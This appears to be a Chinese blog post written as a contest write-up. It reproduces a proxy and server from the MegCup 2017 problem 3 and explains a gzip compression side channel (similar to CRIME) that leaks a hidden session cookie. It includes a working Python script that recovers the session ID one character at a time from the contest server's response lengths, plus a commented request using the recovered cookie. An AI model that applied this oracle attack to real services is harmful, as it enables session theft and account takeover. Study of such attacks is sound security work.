 ```yaml
---
title: "MegCup 极客挑战赛第三题"
date: 2017-03-27 11:57:00 +0800
---
```


之前看到这个比赛，然后初赛是一个极坐标到笛卡尔座标系的转换，我一时兴起，就做了，[那个比较简单](https://gist.github.com/winguse/a517546e2f54b2dc4fdcf99c4af6e75d)。

周日无事，就去复赛看看，扫了一眼题目，图论数论动态规划概率论计算几何我不会（即使曾经会现在也生死了）也不想折腾就看了看，不过第三题有点意思，就去研究了一下。[题目在这](https://2017.megcup.com/problems/3)，为了防止这个站挂了，重复一份在这：

简单说，就是一个目标服务（你要访问其中一个签名的 API），需要用 cookie 认证，但是你现在没有 cookie；一个代理服务，通过它访问，你可以免 cookie，但是你不能到达你用的那个 URL。它开源了两个服务的代码，Py...Python，好想吐槽游标卡尺语言啊（应该是吐槽我自己），一直没静下心学的语言，一直只能看看的语言，[最近还现炒现卖做了一个 Thumbor 的 PR](https://github.com/thumbor/thumbor/pull/899)。

两个代码这里也贴一下：

proxy.py

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from mysecret import get_signed_session_id_raw
from flask import Flask, request, make_response
import requests

import base64

app = Flask(__name__)

UPSTREAM_URL = 'http://localhost:38701'

@app.route("/")
def hello():
    return "online proxy usage: /&lt;username&gt;/&lt;page&gt;"

@app.route("/<username>/<page>", methods=['GET', 'POST'])
def proxy(username, page):
    try:
        page = page.strip()
        assert set(page).issubset(set(
            chr(i) for i in range(ord('a'), ord('z') + 1)))
        if page == 'signtoken':
            return make_response('permission denied', 403)

        sid = get_signed_session_id_raw(username)
        sid = base64.urlsafe_b64encode(sid).decode('utf-8')
        up_resp = requests.get(UPSTREAM_URL + '/' + page, params=request.args,
                               cookies={'sessionid': sid})

        # some debug pages may expose session id; strip them
        resp = up_resp.text.replace(sid, '<del>sessionid</del>')

        if request.form.get('debug'):
            resp += '<br /><hr>proxy debug<br />'
            resp += 'server response headers: <pre>{}</pre>'.format(
                up_resp.headers)

        return resp
    except:
        return 'error'


if __name__ == "__main__":
    app.run(debug=True, port=38700)
```

server.py

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from mysecret import check_session_id, signtoken as do_signtoken
from simpleeval import simple_eval

from flask import Flask, request, make_response
import functools

app = Flask(__name__)

def require_login(func):
    @functools.wraps(func)
    def work():
        try:
            sid = request.cookies.get('sessionid')
            if not sid or not check_session_id(sid):
                return make_response('please login first', 401)
            return func()
        except:
            return 'error'
    return work

@app.route("/")
def hello():
    return "Hello World!"

@app.route("/echo")
@require_login
def echo():
    return make_response("""
        <h1>echo page</h1>
        <h2>request headers</h2><pre>{}</pre><h2>args</h2><pre>{}</pre>
    """.format(request.headers,
               '\n'.join('{}: {}'.format(k, v)
                         for k, v in request.args.items())))

@app.route("/eval")
@require_login
def eval_():
    expr = request.args['expr']
    result = simple_eval(expr)
    return make_response("""
        <h1>eval page</h1>
        <pre>{} = {}</pre>
    """.format(expr, result))

@app.route("/signtoken")
@require_login
def signtoken():
    token = request.args['token']
    signature = do_signtoken(token)
    return "token: {}<br />signature: {}".format(token, signature)

if __name__ == "__main__":
    app.run(debug=True, port=38701)
```

这个题目，乍看一眼的时候，我看到了那个 eval 的东西，然而，这个是个坑，开始我觉得这个简单吧，可以随便执行一段 Python 代码，然后很开心就去发了个 HTTP 请求，然而，去翻了一下那个 [Simple Eval 的包](https://github.com/danthedeckie/simpleeval)，才发现，这个功能十分有限，只能执行一些指定的表达式，显然这是一个吸引火力的地方，特别是我这种对它以及 Python 基本已无所知的人（此处应该有掀桌）。

然后继续看看那个 echo 的 API 呗，通过代理，它会 echo 回 HTTP Headers ，然而，鸡贼的出题人，将我们想要的 sid 个替换掉了。不过后面有一个 debug 的，会打印上游返回的 header ，咦，这是一个突破。当然，这个有点贼的地方是说，这个地方的参数是用 form 传的，不过这个不难，构造一下就好。然后就有了返回的 Header ，不过看不出什么有用的东西。

当然，这其实是有用的！中午我自己想去破解的时候，就注意到返回的 Content-Length 是 240 字节，Content-Encoding 是 gzip 。然后，在没有 debug 参数的时候，我从 Chrome 看到的是 223 字节。换句话说，因为出题人鸡贼地替换掉 sid 后，数据 gzip 后少了 17 字节。大概可以猜到 sid 这个串的长度了。然后，我就想到一个办法了：暴力枚举那个字符串。然而——我随便想了一下，暴力枚举 17 个字节啊，这不行啊，然后我觉得，是不是 gzip 可以有一些修复算法，毕竟我可以构造任意数据让服务器返回，然后看看返回的表现自己枚举的对不对——然而，我没想到一个可以让我一个个字节枚举的办法，一想到 17 字节的解空间，我就放弃了这个想法了。

![思路](/images/2017-03-27-guess-size.jpg)

之后又试了点别的，比如能不能绕过 proxy.py 里面的 URL 校验啊之类的，不过最后证明，%20 之类的伪造 URL 是没用的，然后我就开始去翻 python 的这个 HTTP 框架是不是有什么溢出漏洞之类的，没找到，想了想，不辜负好天气，就去，玩，了……

晚上 11 点快睡觉的时候，又想起来这么一茬事，好像说晚上 10 点结束吧，于是我就[去翻榜](https://2017.megcup.com/ranklist)了，照旧，其他不看，点开看了[过的一个大神第三题怎么做的](https://2017.megcup.com/get_upload/bef8bce5c3e307a8cd4f3e4b9467eff3)，我擦，我先看到的那份 import 了 zlib ，不是真的吧，跟我想的一样暴力去枚举啊，我脑子一片慌张。不过仔细看，好像不是，那些代码都注释掉了。继续往下看，我开始恍然大悟了（想想也是，好像其他地方也没再泄漏什么信息了），解法是：

> 构造了一段跟 echo 返回的数据相同的字符串，然后看服务器返回的长度，选择枚举的最后一个字符。

原因是，数据压缩算法本质上是对相同的 pattern 的数据做归类，举个例子，假设传输 100 个“啊”字，那么压缩后，就是“100 个啊字”，嘿嘿，是不是很像废话？所以，构造了两个一致的片段，那么他们会被合并，这个题目就是：

> HEADER_IN_TEXT + SESSION_ID

所以，可以构造：

> HEADER_IN_TEXT + TRYING_CHARS

如果  TRYING_CHARS 的前缀和  SESSION_ID 是一样的话，那么整个数据的公共部分就会被合并，然后这样子的返回的长度会最小（可以压缩到一起了嘛）。所以，就有了这么贼的做法了，嗯，然后我自己重新写了下面的代码再睡觉：

```python
import urllib
import urllib2
import re
import requests

# finally result
# r = requests.get('http://47.93.114.77:38701/signtoken', params={'token': '2d0a74300115d66e7a5d21e59bc20b53'}, headers={'Cookie': 'sessionid=ww6mveDaJESyPqfvcFKq1A=='})
# print r.content


zipBase=urllib.quote('''Accept: */*\r\nConnection: close\r\nUser-Agent: python-requests/2.13.0\r\nAccept-Encoding: gzip, deflate\r\nHost: localhost:38701\r\nCookie: sessionid=''')

chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/='

def getdebug(url):
    test_data={'debug':'a'}
    test_data_urlencode = urllib.urlencode(test_data)
    req = urllib2.Request(url=url, data=test_data_urlencode)
    res_data = urllib2.urlopen(req)
    res = res_data.read()
    res = re.search(r"(?<='Content-Length': ').*(?=', 'Connection')", res)
    return int(res.group())


now=''
for i in range(30):
    min_size = 999999999999
    selected = '0'
    for j in chars:
        res = getdebug('http://47.93.114.77:38700/root/echo?a=' + zipBase + now + j)
        if (res < min_size):
            min_size = res
            selected = j
        # print 'trying', j, res
    now += selected
    print now
```

看到了什么 gzip 的结束标识啊（例如等号），长度啊之类的，就可以大概猜到什么时候是循环结束的位置了，当然也可以通过判断 content-length 来做。

然后，让我想起我进微软孙老板那个压缩字符串面试题了，我多少还是了解一些东西的，可惜，不够敏感。说信息安全嘛，这个也算是一个例子了，其实，很简单的东西，都是可以造成信息泄漏的。类似的，还有[心脏滴血的漏洞](http://heartbleed.com/)。[大神的代码也有一个引用，原来还有这么一茬事情](http://security.blogoverflow.com/2012/09/how-can-you-protect-yourself-from-crime-beasts-successor/)。。

就酱。
